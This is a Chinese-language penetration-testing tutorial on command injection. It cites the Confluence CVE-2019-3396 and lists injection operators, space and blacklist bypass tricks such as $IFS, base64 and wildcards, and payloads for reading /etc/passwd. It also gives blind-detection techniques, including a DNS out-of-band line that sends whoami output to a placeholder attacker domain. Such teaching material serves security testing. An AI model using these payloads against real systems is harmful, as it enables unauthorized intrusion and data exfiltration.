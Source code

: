 # 命令注入

# 简介

举个例子，confluence的某些版本存在命令注入漏洞，漏洞编号为：CVE-2019-3396，简单的漏洞验证方式如下：

![%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%20a0887fdcad3d48fd9fb54a1097816ef7/Untitled.png](%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%20a0887fdcad3d48fd9fb54a1097816ef7/Untitled.png)

观察请求包，其中存在参数command，修改其对应的值为ipconfig，得到的返回包具有明显的ipconfig命令执行特征，因此可以推测该处存在命令注入漏洞。

在网站中寻找命令注入漏洞可能不像寻找其他服务端漏洞那么简单，更多情况下，需要思考传入后端的参数究竟被用来生成何种命令的执行。

如果参数本身有很明显的系统底层命令特征（如：hostname、command、cmd）；或者参数有比较大的概率被作为字符串的一部分进行底层命令执行，（各语言底层命令如下表），那么可以尝试性进行命令注入尝试。

```python
#php
system
exec
passthru
shell_exec
popen
proc_open

#python
system
popen
subprocess.call
spawn

#java
java.lang.Runtime.getRuntime().exec()
```

该漏洞常见于内网某些主机管理系统、综合运维平台、论坛等对于直接调用系统底层API需求迫切的站点（正常网站的普通功能基本无法用到这些函数），在进行类似站点或者类似功能的测试时，尤其需要注意。

---

# 原理

网站开发人员在进行功能设计时，由于经验不足入了上述相关函数或者相关函数的上层函数。我们可以使用一段简单的python代码来进行直观展示。

![%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%20a0887fdcad3d48fd9fb54a1097816ef7/Untitled%201.png](%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%20a0887fdcad3d48fd9fb54a1097816ef7/Untitled%201.png)

可以看到，在额外添加了[;id]之后，该接口的输出会多出一行非常明显的linux风格的id命令显示。这就是关于命令执行的字符串拼接方式之一。（当然如果像第一个例子中所示，直接替换即可执行，就不需要拼接命令了）

**关于命令执行的字符串拼接方式**

- 连接符号
    - |：linux管道符，前一个命令的输出作为后一个命令的输入，如果后一个命令的参数已被填满，则可看作先执行A命令后执行B命令（只不过前一个命令的输出无法展示在标准输出中）

    ```bash
    ubuntu@VM-0-3-ubuntu:~/temp$ ls
    flag1.txt
    ubuntu@VM-0-3-ubuntu:~/temp$ hostname|cat flag1.txt
    flag{123}
    ```

    - ||：仅当A命令执行失败时，才会执行B命令

    ```bash
    ubuntu@VM-0-3-ubuntu:~/temp$ hostname||cat flag1.txt
    VM-0-3-ubuntu
    ubuntu@VM-0-3-ubuntu:~/temp$ hostnamez||cat flag1.txt
    No command 'hostnamez' found, did you mean:
     Command 'hostname' from package 'hostname' (main)
    hostnamez: command not found
    flag{123}
    ```

    - &&：仅当A命令执行成功时，才会执行B命令

    ```bash
    ubuntu@VM-0-3-ubuntu:~/temp$ hostname&&cat flag1.txt
    VM-0-3-ubuntu
    flag{123}
    ubuntu@VM-0-3-ubuntu:~/temp$ hostnamez&&cat flag1.txt
    No command 'hostnamez' found, did you mean:
     Command 'hostname' from package 'hostname' (main)
    hostnamez: command not found
    ```

    - 英文分号：先后执行命令A命令B，依次输出，无执行结果要求

    ```bash
    ubuntu@VM-0-3-ubuntu:~$ hostname;id
    VM-0-3-ubuntu
    uid=500(ubuntu) gid=500(ubuntu) groups=500(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)
    ubuntu@VM-0-3-ubuntu:~$ hostnamez;id
    No command 'hostnamez' found, did you mean:
     Command 'hostname' from package 'hostname' (main)
    hostnamez: command not found
    uid=500(ubuntu) gid=500(ubuntu) groups=500(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)
    ubuntu@VM-0-3-ubuntu:~$ hostname;idz
    VM-0-3-ubuntu
    No command 'idz' found, did you mean:
     Command 'i7z' from package 'i7z' (universe)
     Command 'ide' from package 'ecere-dev' (universe)
     Command 'idt' from package 'ncl-ncarg' (universe)
     Command 'idn' from package 'idn' (universe)
     Command 'iz' from package 'lowpan-tools' (universe)
     Command 'id3' from package 'id3' (universe)
     Command 'id' from package 'coreutils' (main)
    idz: command not found
    ```

    - 换行符：\r\n 或者十六进制的\r\n，即：%d0%a0，用法与英文分号一致

---

# 技巧

原理中所描述的关于命令执行的字符串拼接方式，可以在有回显的场景下直接使用，但是存在下列问题：

1. 常规攻击命令基本上是复合词组，即命令是一个包含空格的词语组合，如：ifconfig eth0，如果后端针对常见攻击命令存在空格过滤，如何绕过？
2. 如果后端针对常见攻击命令存在黑名单过滤，如何绕过？
3. 如果场景是无回显，那如何证明命令执行漏洞存在？

以下是关于这三个问题相关技巧

### 空格绕过

- linux层面

```python
ubuntu@VM-0-3-ubuntu:~/temp$ cat<flag1.txt
flag{123}
ubuntu@VM-0-3-ubuntu:~/temp$ {cat,flag1.txt}
flag{123}
ubuntu@VM-0-3-ubuntu:~/temp$ cat$IFS$9./flag1.txt
flag{123}
ubuntu@VM-0-3-ubuntu:~/temp$ X=$'cat\x20flag1.txt'&&$X
flag{123}
```

- 浏览器层面（基本与URI编码相关）

```python
cat%20flag
cat%09flag
cat%0bflag
cat%0cflag
cat+flag
```

### 黑名单绕过

主要用到了linux的一些小技巧，比如通配符、连接符、base64编码等

通配符

```bash
* 0到无穷个任意字符
? 一个任意字符
[ ] 一个在括号内的字符，e.g. [abcd]
[ - ] 在编码顺序内的所有字符
[^ ] 一个不在括号内的字符
```

- `a=l;b=s;$a$b`  【变量替换】
- base64 `echo "bHM=" | base64 -d`  【base64编码】
- `/?in/?s` => `/bin/ls`   【通配符】
- `cat /etc/pass'w'd`  【连接符】
- `cat$a /etc/passwd`  【未定义的初始化变量】

### 利用特殊符号实现命令拼接

- ``[反引号，位置处于esc键下，与波浪符号同键]

```bash
#在命令中先执行反引号中的命令，再执行反引号外的命令
echo It is now `date` 

等价于：
echo It is now 一 12月 17 12:16:04 GMT 2018

在正式执行时会产生以下输出结果：
It is now 一 12月 17 12:16:04 GMT 2018
```

- $()

```bash
#使用方法与反引号相同
```

### 无回显

由于正确/错误信息无法直接在返回数据包中显示，所以需要一些其他因素进行漏洞确认，这些因素包括：返回包时间长短、DNS请求内容、

- 时间盲注：||ping+-c+5+127.0.0.1 （||命令拼接，执行5次本地ping，如果返回时间在四点几秒，可以确认漏洞存在）
- DNS通道数据带外(禁止在内网测试时使用该技巧 ）
    - ||nslookup+`whoami`.your-dns-server-domain（||命令拼接，使用nslookup命令实现dns寻址，而如果该接口存在命令执行漏洞，会先本地执行whoami命令后，使用whoami的命令结果拼接进入寻址的目标地址，最终寻址的对象为：root（whoami的结果）.your-dns-server-domain。漏洞存在的证明即为your-dns-server-domain记录了两次寻址请求。）
- 将某些命令的结果写入文件
    - ||whoami>/var/www/images/output.txt（||命令拼接，将whoami的结果写入output文件。仅当拥有一个目录穿越漏洞且知晓相bi关绝对路径信息时，可以使用该方式确认漏洞）